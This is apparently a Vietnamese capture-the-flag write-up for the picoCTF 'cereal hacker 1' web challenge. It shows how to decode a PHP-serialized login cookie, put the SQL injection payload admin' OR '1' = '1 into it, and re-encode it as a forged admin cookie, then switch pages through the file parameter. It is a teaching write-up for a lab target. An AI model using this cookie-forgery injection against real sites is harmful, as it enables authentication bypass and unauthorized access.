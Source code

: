 #### cereal hacker 1 ([Link](https://2019shell1.picoctf.com/problem/37889/index.php?file=login))

- *Fuzzing* đại những cặp *user và pass* hay gặp thì khá may mắn là *guest và guest* hợp lệ

- Nhìn *cookie* thì có dạng như thế này:

  - `user_info` : `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D`

- Đây là mã *base64*, thử decode xem

  - `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`

- Đây là dạng cơ bản của dạng bài `serialize`, các bạn tham khảo thêm, đây là 1 trong những vấn để của *OWASP* 

- Theo hint nói thì đây là 1 bài *sql injection* (hint lấy trong phần game)

- Giờ ta có thể đoán *user* của admin là admin, *pass* chưa biết. Nên bây giờ ta tiêm payload vào đây

- Payload: `admin' OR '1' = '1`

- Tuy nhiên cần cho payload này vô `serialize` :

  - `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`
  - Từ `s:5` ta chuyển thành `s:18` do payload của ta chứa 18 ký tự. Giờ encode base64 vào cho vô *coookie* lại và xem kết quả

- Cookie lúc này là: 

  - `user_info` : `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTg6ImFkbWluJyBPUiAnMScgPSAnMSI7fQ==`

- Ta chuyển qua page admin bằng cách đổi *endpoint* thành *?file=admin*, đây là 1 lỗi *LFI* nhỏ nhỏ

- Khi chuyển qua page admin, ta nhận được flag

  ![1](Selection_001.png)
